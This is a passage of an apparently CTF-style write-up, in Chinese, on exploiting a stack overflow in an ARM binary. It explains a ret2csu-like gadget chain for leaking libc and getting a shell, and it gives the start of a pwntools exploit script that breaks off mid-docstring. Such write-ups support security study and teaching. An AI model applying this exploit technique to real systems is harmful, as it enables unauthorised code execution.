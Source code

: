 简单的栈溢出，这里 buf 开辟了 3 字节的缓冲区，但是 read() 读取的时候写入 256 字节的内容

这里顺便说一下为什么栈溢出这么多字节，是因为我们在 arm 架构中的 gadget 中是没有 x86 架构那种的 pop,ret 的，所以需要用类似 x86 架构下的 ret2csu 打法多次调用寄存器

我理解的泄露 ret2csu 的思路

[![](assets/1701612270-9393f3e93b9bc25f314c773cb2f244f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723200307-e31725c6-2950-1.png)

通过不断调用这一段 gadget，从而调用真正的 write,read，从而写入我们的 system，以及 binsh 字符串，从而 getshell

[![](assets/1701612270-61b9b16dfa72dc8de001ec97317e98aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723200313-e6ae6a00-2950-1.png)

exp:

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

p = process(["qemu-arm","-g", "1234","-L", "/usr/arm-linux-gnueabi/", "./pwn"])
p = process(['qemu-arm','-L','/usr/arm-linux-gnueabi/','./pwn'])
context.log_level='debug'
context.arch='arm'

elf = ELF('./pwn')
libc=ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

"""
0x000104e0 : mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3
```
